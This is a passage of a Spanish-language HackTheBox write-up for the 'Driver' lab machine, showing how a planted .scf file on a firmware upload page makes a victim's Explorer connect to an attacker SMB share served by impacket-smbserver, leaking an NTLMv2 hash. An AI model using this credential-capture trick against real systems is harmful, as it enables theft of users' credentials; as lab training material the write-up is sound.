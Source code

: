 ## Shell as tony

- Si nos vamos al apartado de **Firmware Updates** vemos que podemos subir archivos y alguien lo va revisar ya con que nos digan eso podemos hacer un ataque para robar su `hash NTLMv2`.

<p align="center">
<img src="/assets/hackthebox/img/machines/easy/driver/3.png">
</p>

- La mayoría de veces cuando puedes subir un archivo para robar un hash NTLMv2 es subir un `.scf` que este archivo hace referencia a un `icon` en un `SMB share` cuando un usuario abre la carpeta desde el Explorador de archivos intenta conectarse de vuelta para obtener un archivo de icono desde nuestro recurso compartido SMB gracias a esto obtendremos el hash de la victima.

```bash
➜  content cat icon.scf
[Shell]
IconFile=\\10.10.14.19\zi\dame.ico
```

- Ahora ejecutamos el `impacket-smbserver` para ofrecer el recurso compartido y allí nos llegue el hash.

```bash
➜  content impacket-smbserver zi . -smb2support
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

- Ahora subimos el archivo.

<p align="center">
<img src="/assets/hackthebox/img/machines/easy/driver/4.png">
</p>
